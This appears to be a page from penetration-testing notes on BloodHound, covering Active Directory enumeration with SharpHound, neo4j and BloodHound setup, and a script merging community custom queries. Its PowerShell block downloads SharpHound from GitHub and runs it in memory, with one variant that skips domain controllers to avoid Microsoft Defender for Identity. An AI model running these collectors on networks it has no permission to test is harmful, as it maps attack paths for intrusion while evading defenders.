 * **BloodHound:** [https://github.com/BloodHoundAD/BloodHound](https://github.com/BloodHoundAD/BloodHound)

>**ℹ️ Info:**
>
> Remember to follow the [PowerShell scripts methodology](../00%20-%20Miscellaneous/01-%20Methodology.md#PowerShell%20Scripts).

```powershell
# Run BloodHound
IEX(IWR -usebasicparsing https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Collectors/SharpHound.ps1);Invoke-Bloodhound -CollectionMethod "All,GPOLocalGroup"
# Run BloodHound during 6 hours every 15 minutes
IEX(IWR -usebasicparsing https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Collectors/SharpHound.ps1);Invoke-Bloodhound -CollectionMethod "All,GPOLocalGroup" -Loop -Loopduration 06:00:00 -LoopInterval 00:15:00
# Run BloodHound and ignore DCs to avoid MDI
IEX(IWR -usebasicparsing https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Collectors/SharpHound.ps1);Invoke-Bloodhound -CollectionMethod "All,GPOLocalGroup" -ExcludeDCS
```
---
## Linux Installation
```bash
sudo apt install neo4j
sudo apt install bloodhound
```

## Configuration
Run the following to start neo4j:
```bash
sudo neo4j console
```

Go to http://127.0.0.1:7474 and authenticate using the credentials `neo4j:neo4j`.

## Usage
Run BloodHound:
```bash
sudo bloodhound
```

Authenticate and upload your ingestor data by clicking on `Upload Data` in the button menu on the upper right.

## Custom Queries
Use the following script to download extra BloodHound queries

```bash
#!/usr/bin/env bash

set -o errexit
set -o nounset
set -o pipefail

TMPDIR="$(mktemp -d --suffix=_bloodhound-customqueries)"

curl -s -o "$TMPDIR/customqueries-compass.json" "https://raw.githubusercontent.com/CompassSecurity/BloodHoundQueries/master/BloodHound_Custom_Queries/customqueries.json"

jq '.queries[].category |= (sub("^";"🧭 Compass: "))' < "$TMPDIR/customqueries-compass.json" > "$TMPDIR/customqueries-01-compass-modified.json"

curl -s -o "$TMPDIR/customqueries-certipy.json" "https://raw.githubusercontent.com/ly4k/Certipy/main/customqueries.json"

jq '.queries[].category |= (sub("^";"🔏 Certipy: "))' < "$TMPDIR/customqueries-certipy.json" > "$TMPDIR/customqueries-02-certipy-modified.json"

curl -s -o "$TMPDIR/customqueries-hausec.json" "https://raw.githubusercontent.com/hausec/Bloodhound-Custom-Queries/master/customqueries.json"

jq '.queries[] |= { "category": "💻 Hausec" } +. ' < "$TMPDIR/customqueries-hausec.json" > "$TMPDIR/customqueries-02-hausec-modified.json"

cat "$TMPDIR/"*-modified.json | jq -s 'add + {queries: map(.queries[])}' > customqueries.json
```

Run the following to copy them to the BloodHound config file:
```bash
sudo cp customqueries.json /root/.config/bloodhound/
```